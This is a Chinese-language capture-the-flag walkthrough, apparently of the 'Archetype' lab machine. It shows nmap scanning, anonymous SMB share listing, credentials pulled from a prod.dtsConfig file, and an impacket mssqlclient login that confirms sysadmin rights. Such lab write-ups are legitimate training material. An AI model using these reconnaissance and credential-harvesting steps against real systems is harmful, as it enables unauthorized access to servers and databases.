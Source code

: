 对靶机进行扫描`nmap -A 10.10.10.27`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201140005225.png)

1. 445/tcp端口,用于Windows系统的共享文件夹

2. 1433/tcp端口,用于MSSQL端口

---

首先对445端口的共享文件夹进行查看

`smbclient -N -L 10.10.10.27`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201140008420.png)

尝试对文件夹内的内容进行读取

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201140009670.png)

`prod.dtsConfig`文件内容为

```
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```

可以知道用户名为`ARCHETYPE\sql_svc`,而密码为`M3g4c0rp123`

用[https://github.com/SecureAuthCorp/impacket](https://github.com/SecureAuthCorp/impacket)下的`examples/mssqlclient.py`进行数据库连接

`python mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201140011153.png)

用`SELECT IS_SRVROLEMEMBER('sysadmin')`查看当前权限

[https://docs.microsoft.com/en-us/sql/t-sql/functions/is-srvrolemember-transact-sql?view=sql-server-ver15#examples](https://docs.microsoft.com/en-us/sql/t-sql/functions/is-srvrolemember-transact-sql?view=sql-server-ver15#examples)

```SQL
IF IS_SRVROLEMEMBER ('sysadmin') = 1  
   print 'Current user''s login is a member of the sysadmin role'  
ELSE IF IS_SRVROLEMEMBER ('sysadmin') = 0  
   print 'Current user''s login is NOT a member of the sysadmin role'  
ELSE IF IS_SRVROLEMEMBER ('sysadmin') IS NULL  
   print 'ERROR: The server role specified is not valid.';
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201140012120.png)

当前权限为`sysadmin`


